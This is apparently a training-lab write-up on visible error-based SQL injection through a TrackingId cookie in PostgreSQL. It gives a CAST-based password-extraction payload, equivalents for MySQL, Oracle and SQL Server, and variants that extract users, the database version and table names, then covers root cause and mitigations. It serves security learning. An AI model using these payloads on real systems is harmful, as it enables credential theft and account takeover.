

# Lab 13: Visible error-based SQL injection

## Category
SQL Injection - Error-Based (PostgreSQL)

## Vulnerability Summary
The website's session tracking mechanism contains a visible error-based SQL injection vulnerability in the `TrackingId` cookie. The application uses the tracking ID value in a SQL query without proper sanitization. When malformed input is provided, the database returns detailed error messages that expose sensitive data. By using PostgreSQL's `CAST()` function to force a type conversion error, attackers can extract the administrator password directly from the error message output.

## Steps to Reproduce
1. Navigate to the lab and intercept the request in Burp Suite Proxy.
2. Identify the `TrackingId` cookie as the injection point.
3. Test for SQL injection by injecting a single quote:
   - Payload: `'`
4. Observe that the application returns a SQL syntax error, confirming injection point.
5. Craft an error-based injection payload to extract the password:
   - Payload: `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
6. Send the request and observe the error message.
7. The database error reveals the password in the error output:
   - Error: `invalid input syntax for type integer: "m1fa6kzyzjvdwljpzft1"`
8. Extract the password from the error message.
9. Navigate to `/login` and authenticate with the extracted credentials.
10. Verify successful login as administrator.



## Technical Root Cause
The vulnerability stems from multiple security failures in handling cookie values:

- **Unsanitized Cookie Input:** The `TrackingId` cookie value is directly concatenated into SQL queries without validation or escaping.
- **Verbose Error Messages:** Database errors are displayed directly to users, leaking sensitive information.
- **Type Conversion Exploitation:** PostgreSQL's `CAST()` function can be abused to force type mismatches that reveal data.
- **Missing Parameterization:** The application does not use parameterized queries or prepared statements.
- **No Input Validation:** SQL operators, functions, and special characters are accepted without validation.
- **Information Leakage:** Error messages contain the actual data being processed, enabling data exfiltration.

### Payload Used

**Basic Injection Test:**
```
'
```

**Error-Based Password Extraction (PostgreSQL):**
```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

**Full Cookie Value:**
```
TrackingId: ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--; session=...
```

### How It Works

1. **Injection Point:**
   - The original query likely looks like: `SELECT * FROM sessions WHERE tracking_id = 'cookie_value'`
   - The injection closes the string with `'` and adds a conditional CAST expression

2. **Error-Based Extraction Logic:**
   - `SELECT password FROM users LIMIT 1` - Retrieves the first user's password (administrator)
   - `CAST(... AS int)` - Attempts to convert the password string to an integer
   - PostgreSQL cannot convert alphanumeric strings to integers, so it throws an error
   - **The error message includes the actual password value** that failed conversion

3. **Error Message Output:**
   ```
   ERROR: invalid input syntax for type integer: "m1fa6kzyzjvdwljpzft1"
   ```
   - The password `m1fa6kzyzjvdwljpzft1` is revealed in the error

4. **Why This Works:**
   - PostgreSQL's error messages are verbose by default
   - The CAST function includes the input value in its error message
   - The application displays database errors directly to the user
   - No error sanitization or generic error handling is implemented

### Alternative Payloads for Different Databases

| Database | Error-Based Payload |
|----------|---------------------|
| PostgreSQL | `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` |
| MySQL | `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT password FROM users LIMIT 1),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--` |
| Oracle | `' AND 1=TO_NUMBER((SELECT password FROM users WHERE ROWNUM=1))--` |
| SQL Server | `' AND 1=CONVERT(int,(SELECT password FROM users LIMIT 1))--` |

### Extracting Multiple Users

**Extract all passwords (one at a time):**
```sql
' AND 1=CAST((SELECT password FROM users WHERE username='administrator') AS int)--
' AND 1=CAST((SELECT password FROM users WHERE username='carlos') AS int)--
```

**Extract using OFFSET:**
```sql
' AND 1=CAST((SELECT password FROM users OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) AS int)--
' AND 1=CAST((SELECT password FROM users OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) AS int)--
```

**Extract database version:**
```sql
' AND 1=CAST((SELECT version()) AS int)--
```

**Extract table names:**
```sql
' AND 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)--
```

### Burp Suite Repeater Workflow

1. **Send original request to Repeater**
2. **Modify TrackingId cookie:**
   ```
   Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--; session=...
   ```
3. **Click Send**
4. **Check Response for error message**
5. **Extract password from error output**

## Impact
- **Complete Credential Exposure:** Administrator password revealed directly in error message.
- **Account Takeover:** Extracted credentials allow full administrative access.
- **Information Disclosure:** Database structure, version, and table names can be extracted.
- **Easy Exploitation:** No advanced tools required—single payload extracts data.
- **Compliance Violation:** Violates data protection regulations (GDPR, PCI-DSS, HIPAA).
- **Legal Liability:** Organization may face lawsuits and regulatory fines.
- **Reputation Damage:** Public disclosure of data breach severely affects user trust.
- **Privilege Escalation:** Admin access enables further exploitation.

## Mitigation
1. **Parameterized Queries:** Use prepared statements with parameterized queries for all database operations including cookie values.
2. **Generic Error Messages:** Implement custom error pages that don't reveal database error details.
   - Show: "An error occurred. Please try again later."
   - Don't show: Raw SQL error messages with data values
3. **Input Validation:** Validate and sanitize all cookie values before use in queries.
4. **Error Logging:** Log detailed errors server-side only; never display to users.
5. **Least Privilege:** Database accounts should have minimal permissions.
6. **Web Application Firewall:** Deploy WAF rules to detect SQL injection patterns in cookies.
7. **Regular Security Testing:** Conduct periodic penetration testing for SQL injection.
8. **ORM Usage:** Consider using Object-Relational Mapping frameworks that handle SQL safely.
9. **Cookie Integrity:** Use signed/encrypted cookies to prevent tampering.
10. **Security Headers:** Implement proper security headers to reduce attack surface.

## Comparison: Error-Based vs Other SQL Injection Types

| Type | Data Extraction Method | Difficulty | Speed |
|------|----------------------|------------|-------|
| **Error-Based** | Database error messages | Easy | Fast |
| **Union-Based** | UNION SELECT combines results | Easy | Fast |
| **Blind (Boolean)** | True/False page behavior | Medium | Slow |
| **Blind (Time-Based)** | Response time delays | Medium | Very Slow |
| **Out-of-Band** | DNS/HTTP requests to attacker | Hard | Variable |

## Key Takeaways
- Error-based SQL injection is one of the **easiest and fastest** exploitation methods
- **Verbose error messages** are a goldmine for attackers
- PostgreSQL's `CAST()` function can be abused for data extraction
- **Single payload** can extract complete credentials
- **Proper error handling** is critical for security defense-in-depth

---
*Lab completed on: 2026-03-21*
